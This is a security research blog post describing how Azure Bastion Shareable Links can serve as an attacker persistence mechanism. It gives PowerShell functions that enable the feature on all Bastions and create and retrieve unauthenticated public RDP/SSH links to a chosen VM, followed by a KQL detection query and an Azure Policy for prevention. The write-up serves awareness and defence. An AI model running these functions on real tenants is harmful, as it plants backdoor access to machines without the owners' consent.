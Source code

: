 ```yaml
---
layout: post
title:  "Yet Another Azure VM Persistence Using Bastion Shareable Links"
date:   2022-11-26
---
```


Earlier this week Microsoft [announced the public preview of Shareable Links in Azure Bastion](https://learn.microsoft.com/en-us/azure/bastion/shareable-link). 

Out-of-the-box persistence for a Virtual Machine that is reachable through an Azure Bastion, allowing for yet [another](https://microsoft.github.io/Azure-Threat-Research-Matrix/Persistence/Persistence/) persistence mechanism in Azure?

I deployed an Azure Bastion to validate, enabled the feature, and generated a Shareable Link for a VM. The link has no additional authentication and is publicly accessible.

This may enable an adversary to abuse the feature to gain access to Remote Desktop or SSH, without requiring network access OR authentication.

**Example link:** Public link for Bastion - [https://bst-c6bf3220-015d-4d6e-8c19-32ac484e341f.bastion.azure.com/api/shareable-url/074fa24e-8614-47ea-94f7-f9f901003598](https://bst-c6bf3220-015d-4d6e-8c19-32ac484e341f.bastion.azure.com/api/shareable-url/074fa24e-8614-47ea-94f7-f9f901003598) 

![bastion](https://user-images.githubusercontent.com/26272119/204090894-4c9f4232-215a-472e-90d9-77dab0aba820.png)

To enable the feature and get a shareable link, the permissions listed below are required to perform this. These permissions are all associated with the Contributor role: 

- Microsoft.Network/bastionHosts/write
- Microsoft.Network/bastionHosts/createShareableLinks/action
- Microsoft.Network/bastionHosts/getShareableLinks/action

There are three operations required to configure the persistence:

1. Update the Bastion to enable the Shareable Link feature [https://learn.microsoft.com/en-us/rest/api/virtualnetwork/bastion-hosts/create-or-update?tabs=HTTP](https://learn.microsoft.com/en-us/rest/api/virtualnetwork/bastion-hosts/create-or-update?tabs=HTTP) 
2. Create a Shareable Link for a specified VM [https://learn.microsoft.com/en-us/rest/api/virtualnetwork/put-bastion-shareable-link/put-bastion-shareable-link?tabs=HTTP](https://learn.microsoft.com/en-us/rest/api/virtualnetwork/put-bastion-shareable-link/put-bastion-shareable-link?tabs=HTTP)
3. Retrieve the URL for the Shareable Link  [https://learn.microsoft.com/en-us/rest/api/virtualnetwork/get-bastion-shareable-link/get-bastion-shareable-link?tabs=HTTP](https://learn.microsoft.com/en-us/rest/api/virtualnetwork/get-bastion-shareable-link/get-bastion-shareable-link?tabs=HTTP) 

To streamline enablement of the feature, I wrote two functions, that I plan to further improve and submit to [Microburst](https://github.com/NetSPI/MicroBurst). 

This requires the Az module to be installed for it to retrieve a token:

```powershell
function Invoke-AzRestBastionShareableLink {

    # Author: Karim El-Melhaoui(@KarimsCloud), O3 Cyber
    # Description: PowerShell function for creating a shareable link in Azure Bastion
    # A VM must be specified as the link is attached to a VM.
    # https://learn.microsoft.com/en-us/azure/bastion/shareable-link

    [CmdletBinding()]
    Param(
    [Parameter(Mandatory=$true,
    HelpMessage="Name of VM to enable Shareable Link")]
    [string]$VMName = ""
    )

    $Token = Get-AzAccessToken
    $Headers = @{Authorization = "Bearer $($Token.Token)" }

    $AzBastions = Get-AzBastion
    Write-Output "Enabling Shareable Link feature on all Azure bastions"

    #Gets the ID of VM specified through name parameter to use for creating a shareable link
    $VMId = Get-AzVM -Name $VMName | Select-Object -ExpandProperty Id
    Write-Output "Id of VM: $VMId" 

    foreach ($AzBastion in $AzBastions) {

        
        $body = -join ('{"location": "',$AzBastion.location,'", "properties": {"enableShareableLink": "true","ipConfigurations": [{"name": "',$AzBastion.IpConfigurations.Name,'","properties":{"publicIPAddress": {"Id": "',$AzBastion.IpConfigurations.PublicIpAddress.Id,'"},"subnet":{"Id": "',$AzBastion.IpConfigurations.Subnet.Id,'"}}}]}}')
        $RGName = $AzBastion.ResourceGroupName
        $BastionName = $AzBastion.Name
        try {
            Write-Output "Enabling shareable links on $BastionName"
            Invoke-RestMethod -Method Put -Uri "https://management.azure.com/subscriptions/$($subscriptionId)/resourceGroups/$($RGName)/providers/Microsoft.Network/bastionHosts/$($BastionName)?api-version=2022-05-01" -Headers $Headers -Body $body -ContentType "application/json"

        }
        catch {
            Write-Output "Something went wrong. : $_"
        }
        
        #Generate body with VM ID specifie. 
        $VMBody = -join ('{"vms":[{"vm":{"id":"',$VMId,'"}}]}')

        try {
        #Creates shareable link for specified VM
        Invoke-RestMethod -Method Post -Uri "https://management.azure.com/subscriptions/$($subscriptionId)/resourceGroups/$($RGName)/providers/Microsoft.Network/bastionHosts/$($BastionName)/createShareableLinks?api-version=2022-05-01" -Headers $Headers -Body $VMBody -ContentType "application/json"

        }
        catch {
            Write-Output "Something went wrong. : $_"
        }
    }
}

Invoke-AzRestBastionShareableLink
```


Once the feature is enabled on a Bastion, you can retrieve the links using the function below. The retrieval of the Shareable Link is separated into a separate function as the Shareable Link cannot be retrieved until the operation for enabling it is complete.



```powershell
function Get-AzRestBastionShareableLink {

    # Author: Karim El-Melhaoui(@KarimsCloud), O3 Cyber
    # Description: PowerShell function for getting an existing shareable link in Azure Bastion
    # https://learn.microsoft.com/en-us/azure/bastion/shareable-link

    $Token = Get-AzAccessToken
    $Headers = @{Authorization = "Bearer $($Token.Token)" }

    $AzBastions = Get-AzBastion
    Write-Output "Getting all Shareable Links for Azure bastions"
    foreach ($AzBastion in $AzBastions) {        
        $RGName = $AzBastion.ResourceGroupName
        $BastionName = $AzBastion.Name
    
        try {
            $BastionLink = Invoke-RestMethod -Method Post -Uri "https://management.azure.com/subscriptions/$($subscriptionId)/resourceGroups/$($RGName)/providers/Microsoft.Network/bastionHosts/$($BastionName)/GetShareableLinks?api-version=2022-05-01" -Headers $Headers | Select-Object -ExpandProperty Value | Select-Object -ExpandProperty bsl
            Write-Host -ForegroundColor Green "Public link for Bastion: $BastionLink"
        }
        catch {
            Write-Output "Something went wrong. : $_"
        }
    }
}

Get-AzRestBastionShareableLink
```



# Detection

The particular operations can be deteted in the AzureActivity log with the KQL query below:

```bash
AzureActivity
| where OperationNameValue =~ "MICROSOFT.NETWORK/BASTIONHOSTS/GETSHAREABLELINKS/ACTION" or OperationNameValue =~ "MICROSOFT.NETWORK/BASTIONHOSTS/CREATESHAREABLELINKS/ACTION"
| order by TimeGenerated desc
| project Caller, CallerIpAddress, OperationName, TimeGenerated, ResourceId
```



# Prevention

Ideally, you should also consider preventing the feature using Azure Policy with the below Policy Definition:

```json
{
  "mode": "All",
  "parameters": {
    "effect": {
      "type": "String",
      "allowedValues": ["Audit", "Disabled", "Deny"]
    }
  },
  "policyRule": {
    "if": {
      "allOf": [
        {
          "field": "type",
          "equals": "Microsoft.Network/BastionHosts"
        },
        {
          "field": "Microsoft.Network/BastionHosts/enableShareableLink",
          "equals": true
        }
      ]
    },
    "then": {
      "effect": "[parameters('effect')]"
    }
  }
}
```


# Summary

Even though this is an intended feature and behavior, security teams should be aware of the feature and consider detection/prevention methods.
